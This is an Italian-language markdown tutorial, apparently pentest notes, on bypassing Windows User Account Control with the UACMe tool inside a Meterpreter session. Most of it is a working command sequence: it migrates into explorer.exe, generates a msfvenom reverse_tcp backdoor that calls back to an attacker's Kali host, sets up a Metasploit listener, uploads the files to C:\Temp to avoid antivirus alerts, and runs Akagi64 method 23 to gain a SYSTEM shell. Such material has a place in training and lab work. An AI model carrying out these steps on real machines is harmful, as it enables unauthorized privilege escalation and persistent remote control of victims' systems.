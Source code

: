 
# Bypassing UAC with UACMe

## Cos’è l’UAC?

**UAC (User Account Control)** è una funzionalità di sicurezza introdotta con Windows Vista e mantenuta in tutte le versioni successive. Il suo obiettivo è impedire che software non autorizzati (inclusi malware) apportino modifiche critiche al sistema operativo senza il consenso esplicito dell’utente.

Quando un programma richiede privilegi elevati:

- Se l’utente è standard: viene richiesto l’inserimento delle credenziali di un amministratore.
- Se l’utente fa parte del gruppo “Administrators”: viene mostrato un prompt con richiesta di conferma.

Questo comportamento è uno dei principali ostacoli durante la **privilege escalation**, perché anche se l’utente appartiene al gruppo `Administrators`, Windows blocca l’elevazione automatica dei privilegi con un popup che richiede approvazione manuale (click su “Sì”).

## UACMe – Cos’è e come funziona?

**UACMe** è uno strumento open-source scritto in C, disponibile su <a href="https://github.com/hfiref0x/UACME">GitHub</a> 

È una collezione di oltre **70 metodi di bypass UAC** che sfruttano vulnerabilità note, abusi di comandi nativi Windows o meccanismi interni come COM hijacking o DLL injection. Ogni metodo è numerato e testato per specifiche versioni di Windows. Il binario principale è `Akagi`.

## Fasi operative

### Fase 1 – Verifica dei privilegi attuali

Verifichiamo se l’utente corrente appartiene al gruppo degli amministratori e quali privilegi ha:

su meterpeter: <br>
`getuid` ⟶ mostra il nome utente corrente associato alla sessione Meterpreter. <br> 
`getprivs` ⟶ elenca tutti i privilegi disponibili per l’utente corrente. <br> 
su shell: <br>
`net user` ⟶ mostra tutti gli utenti presenti nel sistema. <br> 
`net localgroup administrators` ⟶ mostra i membri del gruppo degli amministratori locali. <br>

Se l’utente è un amministratore ma non ha privilegi SYSTEM, sarà soggetto a UAC.

### Fase 2 – Migrazione nel processo explorer.exe

Per eseguire un bypass UAC in modo affidabile, dobbiamo migrare nel processo `explorer.exe`, poiché è eseguito nel contesto utente dell’attaccato:

`pgrep explorer` ⟶ cerca il PID del processo explorer.exe (ambiente desktop dell’utente). <br>
`migrate <PID>` ⟶ trasferisce la sessione Meterpreter nel processo explorer. <br>
`getprivs` ⟶ riconferma i privilegi dopo la migrazione. <br>

Questa migrazione è importante per evitare comportamenti anomali durante l’esecuzione del bypass UAC, perché alcuni metodi richiedono un contesto utente interattivo.

### Fase 3 – Generazione del payload

Creiamo una nuova backdoor con Meterpreter che verrà eseguita dopo il bypass:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<KaliIP> LPORT=<Port> -f exe > backdoor.exe` <br>

- `-p windows/meterpreter/reverse_tcp`: specifica il payload che si connette alla nostra macchina. <br>
- `LHOST` / `LPORT`: IP e porta del nostro listener. <br>
- `-f exe`: indica che il payload deve essere generato come eseguibile Windows. <br>
- `> backdoor.exe`: salva il payload con questo nome. <br>

### Fase 4 – Creazione del listener

Impostiamo un listener Metasploit per ricevere la connessione:

`use multi/handler` ⟶ modulo per ricevere connessioni da payload. <br>
`set payload windows/meterpreter/reverse_tcp` ⟶ imposta il tipo di payload. <br>
`set LHOST <KaliIP>` ⟶ IP della macchina Kali. <br>
`set LPORT <Port>` ⟶ porta su cui ascoltare. <br>
`run` ⟶ avvia il listener. <br>

### Fase 5 – Trasferimento dei file sul target

Spostiamoci sul target e carichiamo i file necessari:

`cd C:\` ⟶ ci portiamo nella root del disco C. <br>
`mkdir Temp` ⟶ creiamo una directory di lavoro chiamata Temp. <br>
`cd Temp` ⟶ entriamo nella cartella Temp. <br>
`upload backdoor.exe` ⟶ carichiamo il payload generato. <br>
`upload Akagi64.exe` ⟶ carichiamo il file eseguibile di UACMe. <br>

Evitiamo directory utente per ridurre il rischio di allarmi antivirus.

### Fase 6 – Esecuzione del bypass

Lanciamo il file `Akagi64.exe` con il metodo `23` per bypassare l’UAC ed eseguire la backdoor:

`dir` ⟶ mostra i file nella cartella corrente, verifica della presenza dei file caricati. <br>
`./Akagi64.exe 23 C:\Temp\backdoor.exe` ⟶ esegue il metodo 23 di UACMe su `backdoor.exe`. <br>

Il metodo `23` sfrutta una tecnica documentata nel progetto UACMe. Si possono provare altri moduli se questo non funziona.
I moduli sono visionabili nella repository di UACMe nel file README.md.

### Fase 7 – Verifica della nuova sessione privilegiata

Una volta che il payload viene eseguito con privilegi elevati, otterremo una nuova sessione Meterpreter.

`getuid` ⟶ conferma l’identità utente, ci aspettiamo `NT AUTHORITY\SYSTEM`. <br>
`getprivs` ⟶ verifica tutti i privilegi ora ottenuti. <br>
`ps` ⟶ mostra i processi attivi per poter eventualmente migrare in un altro processo di sistema. <br>

Se tutto è andato a buon fine, abbiamo bypassato l’UAC ottenendo controllo SYSTEM.

---
